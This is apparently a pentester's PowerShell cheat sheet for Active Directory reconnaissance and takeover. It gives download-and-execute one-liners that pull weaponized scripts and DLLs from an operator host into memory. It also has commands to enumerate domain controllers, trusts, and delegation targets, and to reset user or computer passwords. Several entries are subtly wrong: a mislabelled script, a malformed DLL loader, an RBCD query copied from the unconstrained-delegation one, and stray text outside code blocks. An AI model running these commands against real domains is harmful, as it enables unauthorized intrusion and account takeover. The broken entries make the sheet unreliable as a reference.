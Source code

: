 # pwsh
% windows, Active Directory, powershell

#plateform/windows #target/local #cat/RECON/AD #tag/powershell 


## AD - Install the AD Module
```
Get-WindowsCapability -Name RSAT*ActiveDirectory* -Online | Add-WindowsCapability -Online;gci -Path 'C:\Windows' -Recurse -Filter 'Microsoft.ActiveDirectory.Management.dll' -EA SilentlyContinue | ? {$_.FullName -like '*GAC_64*' -or $_.FullName -like '*amd64*'} | select -Expand FullName
```

## AD - load AD Module from http (PS1)
https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1
```
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/PrivescCheck.ps1') | IEX; Import-ActiveDirectory
```

## AD - load AD Module from http (dll)
```
(New-Object System.Net.WebClient).DownloadFile('http://<local_ip>:<port|80>/windows/windows_weaponize/dll/Microsoft.ActiveDirectory.Management.dll', '<windows_writable_path>\Microsoft.ActiveDirectory.Management.dll)' | IEX; Import-Module <path>\Microsoft.ActiveDirectory.Management.dll; Get-Command -Module Microsoft.ActiveDirectory.Management
```

## AD - get current DC
```
$env:LOGONSERVER
```

## AD - get DC of a domain (nslookup)
```
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain_fqdn>
```

## AD - get DC of a trusted domain 
```
Get-ADDomainController -DomainName  <trusted_domain> -Discover
```

## AD - get password policy (user)
```
Get-ADUserResultantPasswordPolicy -Identity <user>
```

## AD - get password policy (default)
```
Get-ADDefaultDomainPasswordPolicy
```

## AD - show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## AD - show forest trust (get-adtrust)
SIDFilteringForestAware is set to True, it means SIDHistory is enabled across the forest trust.
```powershell
get-adtrust -filter * | select name,target,sid*
```

## AD - Get domain trust
```powershell
Get-DomainTrust -Domain <domain_fqdn>
```nltest.exe /DOMAIN_TRUSTS
## AD - Get domain SID
```powershell
Get-DomainSID -domain <sid>
```

## AD - Get trash object
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```


## AD - Constrained delegation (all)
```powershell
Get-ADComputer -LDAPFilter "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" -Properties msds-allowedtodelegateto;Get-ADUser -LDAPFilter "(msds-allowedtodelegateto=*)" -Properties msds-allowedtodelegateto; Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=16777216)" -Properties msds-allowedtodelegateto;Get-ADUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=16777216)" -Properties msds-allowedtodelegateto
```

## AD - Constrained delegation (protocol transition)
```powershell
Get-ADComputer -LDAPFilter "(&(userAccountControl:1.2.840.113556.1.4.803:=16777216)(msds-allowedtodelegateto=*))" -Properties msds-allowedtodelegateto;Get-ADUser -LDAPFilter "(&(userAccountControl:1.2.840.113556.1.4.803:=16777216)(msds-allowedtodelegateto=*))" -Properties msds-allowedtodelegateto
```


## AD - Unconstrained delegation
```powershell
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```

## AD - RBCD
```powershell
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```



## AD - reset password (user)
```powershell
Set-ADAccountPassword -Identity <user> -NewPassword (ConvertTo-SecureString -AsPlainText 'Jubeaz12345+-' -Force)
```

## AD - reset password (computer)
```powershell
Set-ADAccountPassword -Identity <computer>$ -NewPassword (ConvertTo-SecureString -AsPlainText 'Jubeaz12345+-' -Force)
```
